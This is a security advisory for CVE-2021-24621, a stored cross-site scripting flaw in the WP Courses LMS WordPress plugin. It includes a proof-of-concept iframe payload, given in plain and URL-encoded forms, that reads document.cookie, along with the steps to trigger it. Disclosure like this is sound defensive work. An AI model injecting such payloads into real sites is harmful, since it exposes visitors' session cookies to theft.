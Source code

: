 ```yaml
---
title: "WP Courses LMS < 2.0.44 - Authenticated Stored XSS via Video Embed Code"
classes: wide
header:
  teaser: /assets/images/wordpress-plugins-vuln.jpg
search: true
categories: 
  - CVE
tags:
  - CVE
last_modified_at: 2021-10-01T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


# Description
The plugin does not sanitise its Video Embed Code, allowing malicious code to be injected in it by high privilege users, even when the unfiltered_html capability is disallowed, which could lead to Stored Cross-Site Scripting issues

# Proof of Concept
On the dashboard, navigate to `WP Courses > Courses > Add New > Video Embed Code (iframe) (in the Post settings)`, inject with `<iframe>` XSS payload, such as 

```text
<iframe src="javascript:alert(document.cookie)"></iframe>;<iframe src="javascript:%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29"></iframe>
```
Then, click `Update`, and to trigger XSS payload, open URL path of course 

# Timeline
- Publicly Published : 2021-08-16 (about 1 months ago)
- Added : 2021-08-16 (about 1 months ago)
- Last Updated : 2021-08-16 (about 1 months ago)

# Links
- [WP Courses LMS < 2.0.44 - Authenticated Stored XSS via Video Embed Code](https://wpscan.com/vulnerability/bfbb32ac-9ef9-46de-8e5e-7d6d6fb868d8)
- [CVE-2021-24621](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24621)